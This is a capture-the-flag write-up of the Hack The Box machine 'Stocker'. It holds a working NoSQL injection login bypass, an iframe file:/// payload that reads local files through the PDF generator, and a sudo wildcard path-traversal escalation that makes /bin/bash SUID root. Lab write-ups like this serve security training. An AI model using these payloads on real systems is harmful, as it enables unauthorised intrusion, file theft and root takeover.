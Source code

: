 # Stocker

## Gaining Access

Nmap scan:

```bash
$ nmap -p- --min-rate 3000 10.129.98.240 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 00:30 EST
Nmap scan report for stocker.htb (10.129.98.240)
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The domain was `stocker.htb`, and we can add that to the `/etc/hosts` file.

### Subdomain Fuzzing

There was nothing of interest on the website. `gobuster` scans and default enumeration did not really help out a lot.&#x20;

I decided to use `wfuzz` to fuzz the possible subdomains present on the website, and actually found one at `dev.stocker.htb`.

<figure><img src="../../../.gitbook/assets/image (8) (6) (1).png" alt=""><figcaption></figcaption></figure>

Interesting.

### Login Bypass

At the dev site, all we see is one login page:

<figure><img src="../../../.gitbook/assets/image (6) (2) (2).png" alt=""><figcaption></figcaption></figure>

I tested out `sqlmap` or other SQL injections but it didn't work. It seems that we have to bypass this login to carry on with the machine. Proxying the traffic via Burp gave me a clearer picture on the error received when I entered wrong credentials:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU
Upgrade-Insecure-Requests: 1

username=test&password=test
```

There was a `connect.sid` endpoint, indicating that this was some type of Express website. Perhaps this was using MongoDB instead of regular SQL. I tested this JSON payload to bypass the login and it worked.

```json
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
```

<figure><img src="../../../.gitbook/assets/image (7) (3) (4).png" alt=""><figcaption></figcaption></figure>

The website was some ordering website where we could place orders for items.

<figure><img src="../../../.gitbook/assets/image (10) (5) (2).png" alt=""><figcaption></figcaption></figure>

### Stock LFI

I added some items and attemted to checkout from the website.

<figure><img src="../../../.gitbook/assets/image (9) (4) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

Viewing the purchase order brought us to a PDF page.

<figure><img src="../../../.gitbook/assets/image (4) (2) (1).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to find that Skia is used to generate this PDF from Chromium.

```
$ exiftool document.pdf
ExifTool Version Number         : 12.49
File Name                       : document.pdf
Directory                       : .
File Size                       : 38 kB
File Modification Date/Time     : 2023:01:17 04:05:40-05:00
File Access Date/Time           : 2023:01:17 04:05:50-05:00
File Inode Change Date/Time     : 2023:01:17 04:05:40-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:01:17 09:05:09+00:00
Modify Date                     : 2023:01:17 09:05:09+00:00
```

Additionally, this was the request sent when we clicked checkout.

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

The exploit is obviously to do with some parameter within the request being vulnerable when generating the RCE. I did some research on PDF related exploits, and found that it was possible to inject some HTML frames to cause an LFI.

{% embed url="https://techkranti.com/ssrf-aws-metadata-leakage/" %}

I attempted this exploit using the `file:///` wrapper to read the `/etc/passwd` file and it worked within the `title` header in the JSON data.

```
<iframe src='file:///etc/passwd' width=500px height=1000px ></iframe>
```

<figure><img src="../../../.gitbook/assets/image (5) (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39) (2).png" alt=""><figcaption></figcaption></figure>

We find that the user is called `angoose`. I attempted to read more files such as the private SSH key of the user, but it seems that I either could not read it or it did not exist.

Remembering that this was an Express website, perhaps there was a Javascript file that I could read to find some credentials, particularly those used to access this server in the first place. WIthin  the `/var/www/dev/index.js` file, I managed to find some credentials.

<figure><img src="../../../.gitbook/assets/image (2) (6) (4).png" alt=""><figcaption></figcaption></figure>

With this password, we can `ssh` in as `angoose`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo

Checking sudo permissions, we find that `angoose` can use `node` as an administrator. There's also a wildcard in the scripts we can execute, which is never a good thing.

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Within that folder, there are some scripts already present.

```
angoose@stocker:/usr/local/scripts$ ls -la
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
```

I don't have write permissions in this folder. Neither can I read the scripts to find out what they do. However, because there's a wildcard, we can just enter `../../` to execute any script we want.

Here's a basic JS script for RCE using `child_process`.

```javascript
#!/usr/bin/node
require('child_process').exec('chmod u+s /bin/bash')
```

Then, we can simply do this:

```
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../../home/angoose/evil.js 
angoose@stocker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:~$ /bin/bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
```

Pwned.&#x20;
